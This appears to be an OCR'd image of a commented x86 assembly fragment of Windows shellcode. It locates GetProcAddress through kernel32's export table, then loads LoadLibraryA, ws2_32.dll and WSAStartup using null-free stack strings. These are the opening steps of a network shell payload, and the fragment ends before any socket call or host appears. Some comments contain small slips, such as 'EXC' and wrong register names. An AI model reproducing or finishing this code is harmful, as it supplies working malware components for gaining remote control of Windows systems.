 ```text
XOR ECX, ECX					;EXC = 0

GetFunction :

INC ECX; increment counter
LODSD						;Get name offset
ADD EAX, EBX					;Get function name
CMP dword [EAX], 0x50746547			;"PteG"
JNZ SHORT GetFunction				;jump to GetFunction label if not "GetP"
CMP dword [EAX + 0x4], 0x41636F72		;"rocA"
JNZ SHORT GetFunction				;jump to GetFunction label if not "rocA"
CMP dword [EAX + 0x8], 0x65726464		;"ddre"
JNZ SHORT GetFunction				;jump to GetFunction label if not "ddre"

MOV ESI, DWORD [EDX + 0x24]	    		;ESI = Offset ordinals
ADD ESI, EBX					;ESI = Ordinals table
MOV CX,  WORD [ESI + ECX * 2]			;CX = Number of function
DEC ECX						;Decrement the ordinal
MOV ESI, DWORD [EDX + 0x1C]	    		;ESI = Offset address table
ADD ESI, EBX					;ESI = Address table
MOV EDX, DWORD [ESI + ECX * 4]			;EDX = Pointer(offset)
ADD EDX, EBX					;EDX = GetProcAddress

; Get the Address of LoadLibraryA function
XOR ECX, ECX					;ECX = 0
PUSH EBX					;Kernel32 base address
PUSH EDX					;GetProcAddress
PUSH ECX					;0
PUSH 0x41797261					;"Ayra"
PUSH 0x7262694C					;"rbiL"
PUSH 0x64616F4C					;"daoL"
PUSH ESP					;"LoadLibrary"
PUSH EBX					;Kernel32 base address
MOV  ESI, EBX					;save the kernel32 address in esi for later
CALL EDX					;GetProcAddress(LoadLibraryA)

ADD ESP, 0xC					;pop "LoadLibraryA"
POP EDX						;EDX = 0
PUSH EAX					;EAX = LoadLibraryA
PUSH EDX					;ECX = 0
MOV DX, 0x6C6C					;"ll"
PUSH EDX
PUSH 0x642E3233					;"d.23"
PUSH 0x5F327377					;"_2sw"
PUSH ESP					;"ws2_32.dll"
CALL EAX					;LoadLibrary("ws2_32.dll")

ADD  ESP, 0x10					;Clean stack
MOV  EDX, [ESP + 0x4]				;EDX = GetProcAddress
PUSH 0x61617075					;"aapu"
SUB  word [ESP + 0x2], 0x6161		 	;"pu" (remove "aa")
PUSH 0x74726174					;"trat"
PUSH 0x53415357					;"SASW"
PUSH ESP					;"WSAStartup"
PUSH EAX					;ws2_32.dll address
MOV	 EDI, EAX				;save ws2_32.dll to use it later
CALL EDX					;GetProcAddress(WSAStartup)

; Call WSAStartUp
XOR  EBX, EBX					;zero out ebx register
MOV  BX, 0x0190					;EAX = sizeof(struct WSAData)
SUB  ESP, EBX					;allocate space for the WSAData structure
PUSH ESP					;push a pointer to WSAData structure
```